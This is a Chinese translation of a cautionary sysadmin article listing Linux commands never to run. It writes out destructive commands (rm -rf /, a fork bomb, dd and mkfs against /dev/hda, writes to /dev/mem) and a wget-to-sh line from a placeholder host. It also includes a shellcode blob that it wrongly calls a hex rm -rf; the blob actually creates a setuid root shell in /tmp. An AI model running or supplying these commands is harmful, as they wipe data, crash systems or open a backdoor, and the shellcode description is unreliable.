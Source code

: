 绝不要用的 Linux 命令！
======

![](https://www.hpe.com/content/dam/hpe/insights/articles/2017/12/the-linux-commands-you-should-never-use/featuredStory/The-Linux-commands-you-should-NEVER-use-1879.jpg.transform/nxt-1043x496-crop/image.jpeg)

**当然，除非你想干掉你的机器。**

蜘蛛侠有这样的一句信条，“权力越大，责任越大。” 对于 Linux 系统管理员们来说，这也是一种应当采用的明智态度。

不，真的，真心感谢 DevOps 的沟通协作和云编排技术，让一个 Linux 管理员不仅能掌控一台服务器，甚者能控制成千上万台服务器实例。只需要一个愚蠢的举动，你甚至可以毁掉一个价值数十亿美元的企业，比如 [没有打补丁的 Apache Struts][1] 。

如果不能跑在安全补丁之前，这将会带来一个远超过系统管理员工资水平的战略性业务问题。这里就有一些足以搞死 Linux 服务器的简单方式掌握在系统管理员手中。很容易想象到，只有新手才会犯这些错误，但是，我们需要了解的更多。

下列是一些著名的命令，任何拥有 root 权限的用户都能借助它们对服务器造成严重破坏。

**警告：千万不要在生产环境运行这些命令，它们会危害你的系统。不要在家里尝试，也不要在办公室里测试。**

那么，继续！

### rm -rf /

想要干脆利落的毁掉一个 Linux 系统吗？你无法超越这个被誉为“史上最糟糕”的经典，它能删除一切，我说的是，能删除所有存在你系统里的内容！

和大多数 [Linux 命令][2]一样，`rm` 这个核心命令使用起来非常方便。即便是最顽固的文件它也能帮你删除。结合起后面两个参数理解 `rm` 指令时，你很容易陷入大麻烦：`-r`，强制递归删除所有子目录，`-f`，无需确认，强制删除所有只读文件。如果你在根目录运行这条指令，将清除整个驱动器上的所有数据。

如果你真这么干了，想想该怎么和老板解释吧！

现在，也许你会想，“我永远不会犯这么愚蠢的错误。”朋友，骄兵必败。吸取一下经验教训吧， [这个警示故事来自于一个系统管理员在 Reddit 上的帖子][3]：

> 我在 IT 界工作了很多年，但是今天，作为 Linux 系统 root 用户，我在错误的系统路径运行了 `rm- f`
>
> 长话短说，那天，我需要复制一大堆目录从一个目录到另一个目录，和你一样，我敲了几个 `cp -R` 去复制我需要的内容。
>
> 以我的聪明劲，我持续敲着上箭头，在命令记录中寻找可以复制使用的类似命令名，但是它们混杂在一大堆其他命令当中。
>
> 不管怎么说，我一边在 Skype、Slack 和 WhatsApp 的网页上打字，一边又和 Sage 通电话，注意力严重分散，我在敲入 `rm -R ./videodir/* ../companyvideodirwith651vidsin/` 这样一条命令时神游物外。
 
然后，当文件化为乌有时其中也包括了公司的视频。幸运的是，在疯狂敲击 `control -C` 后，在删除太多文件之前，系统管理员中止了这条命令。但这是对你的警告：任何人都可能犯这样的错误。

事实上，绝大部分现代操作系统都会在你犯这些错误之前，用一段醒目的文字警告你。然而，如果你在连续敲击键盘时忙碌或是分心，你将会把你的系统键入一个黑洞。（LCTT 译注：幸运的是，可能在根目录下删除整个文件系统的人太多了额，后来 `rm` 默认禁止删除根目录，除非——你手动加上 `--no-preserve-root` 参数！）

这里有一些更为隐蔽的方式调用 `rm -rf`。思考一下下面的代码：

```
char esp[] __attribute__ ((section(“.text”))) = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

这是什么？这是 16 进制的 `rm -rf` 写法。在你不明确这段代码之前，请千万不要运行这条命令！

### fork 炸弹

既然我们讨论的都是些奇怪的代码，不妨思考一下这一行：

```
:(){ :|: & };:
```

对你来说，这可能看起来有些神秘，但是我看来，它就是那个臭名昭著的 [Bash fork 炸弹][4]。它会反复启动新的 Bash shell，直到你的系统资源消耗殆尽、系统崩溃。 

不应该在最新的 Linux 系统上做这些操作。注意，我说的是**不应该**。我没有说**不能**。正确设置用户权限，Linux 系统能够阻止这些破坏性行为。通常用户仅限于分配使用机器可用内存。但是如果作为 root 用户的你运行了这行命令（或者它的变体 [Bash fork 炸弹变体][5]），你仍然可以反复虐待服务器，直到系统重启了。

### 垃圾数据重写硬盘

有时候你想彻底清除硬盘的数据，你应该使用  [Darik's Boot and Nuke （DBAN）][6] 工具去完成这项工作。

但是如果仅仅想让你的存储器乱套，那很简单：

```
任意命令 > /dev/hda
```

我说的“任意命令”，是指有输出的任意命令，比如:

```
ls -la > /dev/hda
```

……将目录列表通过管道送到你的主存储设备。给我 root 权限和足够的时间，就能覆盖整个硬盘设备。这是让你开始盲目恐慌的一天的好办法，或者，可以把它变成 [职业禁入方式][7]。

### 擦除硬盘！

另一个一直受欢迎的擦除硬盘的方式是执行：

```
dd if=/dev/zero of=/dev/hda
```

你可以用这条命令写入数据到你的硬盘设备。`dd` 命令可以从特殊文件中获取无尽个 `0` 字符，并且将它全部写入你的设备。

可能现在听起来 `/dev/zero` 是个愚蠢的想法，但是它真的管用。比如说，你可以使用它来 [用零清除未使用的分区空间][8]。它能使分区的镜像压缩到更小，以便于数据传输或是存档使用。

在另一方面，它和 `dd if=/dev/random of=/dev/hda` 相近，除了能毁掉你的一天之外，不是一个好事。如果你运行了这个指令（千万不要），你的存储器会被随机数据覆盖。作为一个隐藏你要接管办公室咖啡机的秘密计划的半吊子方法，倒是不错，但是你可以使用 DBAN 工具去更好的完成你的任务。

### /dev/null 的损失

也许因为数据珍贵，我们对备份的数据没有什么信心，确实很多“永远不要这样做！”的命令都会导致硬盘或其它存储仓库的数据被擦除。一个鲜明的实例：另一个毁灭你的存储设备的方式，运行 `mv / /dev/null` 或者 `>mv /dev/null`。

在前一种情况下，你作为 root 用户，把整个磁盘数据都送进这个如饥似渴的 `/dev/null`。在后者，你仅仅把家目录喂给这个空空如也的仓库。任何一种情况下，除非还原备份，你再也不会再看见你的数据了。

见鬼，难道会计真的不需要最新的应收账款文件了吗？

### 格式化错了驱动器

有时候你需要使用这一条命令格式化驱动器：

```
mkfs.ext3 /dev/hda
```

……它会用 ext3 文件系统格式化主硬盘驱动器。别，请等一下！你正在格式化你的主驱动器！难道你不需要用它？

当你要格式化驱动器的时候，请务必加倍确认你正在格式化的分区是真的需要格式化的那块而不是你正在使用的那块，无论它们是 SSD、闪存盘还是其他氧化铁磁盘。

### 内核崩溃

一些 Linux 命令不能让你的机器长时间停机。然而，一些命令却可以导致内核崩溃。这些错误通常是由硬件问题引起的，但你也可以自己搞崩。

当你遭遇内核崩溃，重新启动系统你才可以恢复工作。在一些情况下，这只是有点小烦；在另一些情况下，这是一个大问题，比如说，高负荷运作下的生产环境。下面有一个案例：

```
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```

这些都会导致内核崩溃。

绝不要运行你并不了解它功能的命令，它们都在提醒我…

### 提防未知脚本

年轻或是懒惰的系统管理员喜欢复制别人的脚本。何必重新重复造轮子？所以，他们找到了一个很酷的脚本，承诺会自动检查所有备份。他们就这样运行它：

```
wget https://ImSureThisIsASafe/GreatScript.sh -O- | sh
```

这会下载该脚本，并将它送到 shell 上运行。很明确，别大惊小怪，对吧？不对。这个脚本也许已经被恶意软件感染。当然，一般来说 Linux 比大多数操作系统都要安全，但是如果你以 root 用户运行未知代码，什么都可能会发生。这种危害不仅在恶意软件上，脚本作者的愚蠢本身同样有害。你甚至可能会因为一个未调试的代码吃上一堑——由于你没有花时间去读它。

你认为你不会干那样的事？告诉我，所有那些 [你在 Docker 里面运行的容器镜像在干什么][10]？你知道它们到底在运行着什么吗？我见过太多的没有验证容器里面装着什么就运行它们的系统管理员。请不要和他们一样。

### 结束

这些故事背后的道理很简单。在你的 Linux 系统里，你有巨大的控制权。你几乎可以让你的服务器做任何事。但是在你使用你的权限的同时，请务必做认真的确认。如果你没有，你毁灭的不只是你的服务器，而是你的工作甚至是你的公司。像蜘蛛侠一样，负责任的使用你的权限。

我有没有遗漏什么？在 [@sjvn][11] 或 [@enterprisenxt][12] 上告诉我哪些 Linux 命令在你的“[绝不要运行！][13]”的清单上。

--------------------------------------------------------------------------------

via: https://www.hpe.com/us/en/insights/articles/the-linux-commands-you-should-never-use-1712.html

作者：[Steven Vaughan-Nichols][a]
译者：[CYLeft](https://github.com/CYLeft)
校对：[wxy](https://github.com/wxy)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出

[a]:https://www.hpe.com/us/en/insights/contributors/steven-j-vaughan-nichols.html
[1]:http://www.zdnet.com/article/equifax-blames-open-source-software-for-its-record-breaking-security-breach/
[2]:https://www.hpe.com/us/en/insights/articles/16-linux-server-monitoring-commands-you-really-need-to-know-1703.html
[3]:https://www.reddit.com/r/sysadmin/comments/732skq/after_21_years_i_finally_made_the_rm_boo_boo/
[4]:https://linux.cn/article-5685-1.html
[5]:https://unix.stackexchange.com/questions/283496/why-do-these-bash-fork-bombs-work-differently-and-what-is-the-significance-of
[6]:https://dban.org/
[7]:https://www.hpe.com/us/en/insights/articles/13-ways-to-tank-your-it-career-1707.html
[8]:https://unix.stackexchange.com/questions/44234/clear-unused-space-with-zeros-ext3-ext4
[9]:https://www.hpe.com/us/en/resources/solutions/enterprise-devops-containers.html?jumpid=in_insights~510287587~451_containers~badLinux
[10]:https://www.oreilly.com/ideas/five-security-concerns-when-using-docker
[11]:http://www.twitter.com/sjvn
[12]:http://www.twitter.com/enterprisenxt
[13]:https://www.youtube.com/watch?v=v79fYnuVzdI
